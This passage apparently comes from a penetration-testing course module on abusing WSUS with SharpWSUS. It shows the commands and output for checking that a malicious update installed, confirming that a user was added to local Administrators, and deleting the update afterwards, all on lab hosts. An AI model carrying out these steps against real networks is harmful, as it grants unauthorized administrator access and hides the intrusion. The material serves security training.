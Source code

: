 <p>The last thing we need to do is to wait for the target computer to install the new updates. We can verify if the installation was finalized by running <code>SharpWSUS.exe check</code>, specify the update id <code>/updateid:&lt;Update ID&gt;</code> and the target computer name <code>/computername:&lt;Target Computer&gt;</code>:</p>
<pre><code class="language-powershell-session">c:\Tools&gt; .\SharpWSUS.exe check /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.inlanefreight.local
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Check Update

Targeting srv01.inlanefreight.local
TargetComputer, ComputerID, TargetID
------------------------------------
srv01.inlanefreight.local, bbc6e1ed-75ec-4eea-81cf-05da5c18e93e, 3

Update Info cannot be found.

[*] Check complete
</code></pre>
<p>The above output indicates that the computer hasn't completed the update process. We can force this process if we have access to the target computer by clicking <code>Check For Updates</code>:</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/windowsupdate.gif"/></p>
<p>We successfully installed our update. If we use <code>SharpWSUS.exe check</code> again, it will show that we successfully installed the update.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> It may take some time for the WSUS service to register that the update was applied. </p>
</div>
</div>
<p>We have successfully added a new member to the Administrator group of the target computer, we can now execute commands as an administrator using Filiplain's credentials.</p>
<pre><code class="language-powershell-session">c:\Tools&gt; net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
INLANEFREIGHT\Domain Admins
INLANEFREIGHT\Filiplain
INLANEFREIGHT\PDQ Deploy Admin
The command completed successfully
</code></pre>
<h3>Clean up after the patch is downloaded</h3>
<p>To clean up everything about the malicious update running <code>SharpWSUS.exe delete</code>, specify the update id <code>/updateid:&lt;Update ID&gt;</code> and the target computer <code>/computername:&lt;Target Computer</code>.</p>
<pre><code class="language-powershell-session">c:\Tools&gt; .\SharpWSUS.exe delete /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv02.inlanefreight.local
